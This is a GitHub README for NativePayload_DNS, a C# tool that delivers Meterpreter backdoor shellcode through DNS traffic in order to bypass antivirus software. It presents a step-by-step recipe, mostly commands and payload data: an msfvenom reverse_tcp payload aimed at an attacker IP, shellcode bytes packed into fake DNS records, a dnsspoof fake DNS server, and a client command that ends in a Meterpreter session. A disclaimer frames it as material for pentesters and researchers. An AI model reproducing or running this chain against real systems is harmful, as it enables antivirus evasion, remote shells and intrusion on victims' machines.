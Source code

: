 [![Stage](https://img.shields.io/badge/Release-STABLE-brightgreen.svg)]()

# NativePayload_DNS
C# code for Backdoor Payloads transfer by DNS Traffic and Bypassing Anti-viruses

Published by Damon Mohammadbagher

Warning: this code Published to explaining Anti-Viruses Vulnerability for Pentesters and Security Researchers

for more information and step by step please Visit these links:

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

Video Published by Damon Mohammadbagher (bbxc9x00x1f)

Bypassing Anti-Viruses with transfer Backdoor Payloads by DNS traffic

Video 1 : https://youtu.be/M4dbqRWRsUk

Bypassing AVs with NativePayload_DNS and Meterpreter_Payload_Detection

Video 2 : https://youtu.be/ngZl4PSfW6o

Video Description: Bypassing AVs with NativePayload_DNS.exe and Detecting Meterpreter Process by Meterpreter_Payload_Detection tool
 
 step 1:
 
 msfvenom C type payload in your kali linux
 
 msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 –f c > /root/Desktop/payload.txt
 
copy payloads from payload.txt file to dns.txt like this format:

root@kali:~# cat /root/Desktop/dns.txt

1.1.1.0 "0xfc0x480x830xe40xf00xe80xcc0x000x000x000x410x510x410x500x52.1.com"

1.1.1.1 "0x510x560x480x310xd20x650x480x8b0x520x600x480x8b0x520x180x48.1.com"

1.1.1.2 "0x8b0x520x200x480x8b0x720x500x480x0f0xb70x4a0x4a0x4d0x310xc9.1.com"

1.1.1.3 "0x480x310xc00xac0x3c0x610x7c0x020x2c0x200x410xc10xc90x0d0x41.1.com"

step 2: Make Fake DNS server in your kali linux

root@kali:~# dnsspoof -i eth0 -f /root/Desktop/dns.txt

 step 3:
 
 run code in client
 
 syntax: NativePayload_DNS.exe "1.1.1." 34 "192.168.1.50"
 
 finally you can bypass AVs and you have Meterpreter Session
 
 
 for more information and step by step please Visit these links:
 
Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.linkedin.com/pulse/bypassing-anti-viruses-transfer-backdoor-payloads-dns-mohammadbagher

Bypassing Anti-viruses with transfer Backdoor Payloads by DNS traffic
https://www.peerlyst.com/posts/bypassing-anti-viruses-with-transfer-backdoor-payloads-by-dns-traffic-damon-mohammadbagher

 
 Related Tool: 
 
 C# code for Backdoor Payloads transfer by IPv6 Address (AAAA) records and DNS Traffic also Bypassing Anti-viruses 
 https://github.com/DamonMohammadbagher/NativePayload_IP6DNS
 
 Related link:
 
 Bypass all anti-viruses by Encrypted Payloads with C#
 
 https://www.linkedin.com/pulse/bypass-all-anti-viruses-encrypted-payloads-c-damon-mohammadbagher?trk=pulse_spock-articles

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DNS"/></a></p>
 
